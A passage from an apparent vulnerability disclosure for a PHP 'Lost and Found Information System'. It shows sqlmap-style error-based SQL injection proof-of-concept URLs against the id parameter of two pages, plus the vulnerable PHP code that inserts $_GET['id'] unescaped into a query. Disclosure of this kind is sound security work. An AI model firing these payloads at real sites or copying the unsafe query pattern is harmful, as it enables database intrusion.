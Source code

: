 ```
http://php-lfis.com/?page=admin/user/manage_user&id=1%27%20OR%20(SELECT%201752%20FROM(SELECT%20COUNT(*),CONCAT(0x7162787071,(SELECT%20(ELT(1752=1752,1))),0x7162627871,FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x)a)%20AND%20%27BxHG%27=%27BxHG
```
## Sqlmap running results #7

![blockchain](https://github.com/AnotherN/cvv/blob/main/imgs/7.admin-user-manage_user.php.jpg "Lost and Found Information System")

## Related Codes admin\user\manage_user.php

```
<?php 
if(isset($_GET['id'])){
    $user = $conn->query("SELECT * FROM users where id ='{$_GET['id']}' ");
    foreach($user->fetch_array() as $k =>$v){
        $meta[$k] = $v;
    }
}
?>
```

# **8.SQL injection vulnerability in items\view.php**
---
## Sample request POC #8

```
http://php-lfis.com/?page=items/view&id=1%27%20OR%20(SELECT%204761%20FROM(SELECT%20COUNT(*),CONCAT(0x71766a7671,(SELECT%20(ELT(4761=4761,1))),0x7178787071,FLOOR(RAND(0)*2))x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x)a)%20AND%20%27xIxg%27=%27xIxg
```
## Sqlmap running results #8

![blockchain](https://github.com/AnotherN/cvv/blob/main/imgs/8.items-view.php.jpg "Lost and Found Information System")

